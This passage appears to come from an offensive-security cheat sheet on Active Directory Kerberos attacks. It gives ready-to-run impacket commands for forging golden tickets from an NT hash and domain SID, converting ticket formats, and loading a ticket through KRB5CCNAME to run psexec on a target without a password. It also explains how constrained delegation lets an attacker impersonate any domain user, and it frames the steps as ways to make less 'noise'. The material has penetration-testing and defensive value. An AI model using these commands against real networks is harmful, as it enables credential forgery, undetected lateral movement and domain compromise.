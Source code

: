 the -k and -no-pass flags triggers the impacket to use our ticket in our environment variable above.


Good Resource : https://attack.stealthbits.com/how-golden-ticket-attack-works

https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass



## Offline Ticket Creation (We can create tickets offline to make less noise after getting the required info from above tools)

If we have a users sid , and hash we can create ticket on linux and then convert the .ccache ticket to kirbi and use on target

> python ticketer.py -nthash f3bc61e97fb14d18c42bcbf6c3a9055f -domain-sid S-1-5-21-3523557010-2506964455-2614950430 -domain domain.name username

We can convert ticket format to .ccache if we want to use with tools like psexec smbexec ,crackmapexec directly in session. .kirbi format only works in windows so if we use this,it will make some noise

- Ticket formats converting(linux and windows)

we can use ticket_converter.py to convert the types
ccache is compatible with linux and kirbi with windows

python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi


To inject the ticket directly in our sessions from linux

> export KRB5CCNAME=ticket.ccache  

KRB5CCNAME is a env variable used to store ticket path

now we can use any tool like smbexec,crackmapexec etc and pass the -k flag which will automatically include ticket from env var . 

> python psexec.py domain.name/user@TARGETIP-k -no-pass


# Constrained/UnConstrained Delegation 

http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html?m=1

 An account with constrained delegation enabled is allowed to request tickets to itself as any user, in a process known as S4U2self. In order for an account to be allowed to do this, it has to have TrustedToAuthForDelegation enabled in it's useraccountcontrol property, something that only elevated users can modify by default. This ticket has the FORWARDABLE flag set by default. The service can then use this specially requested ticket to request a service ticket to any service principal name (SPN) specified in the account's msds-allowedtodelegateto field. So long story short, if you have control of an account with TrustedToAuthForDelegation set and a value in msds-allowedtodelegateto, you can pretend to be any user in the domain to the SPNs set in the account's msds-allowedtodelegateto field.
 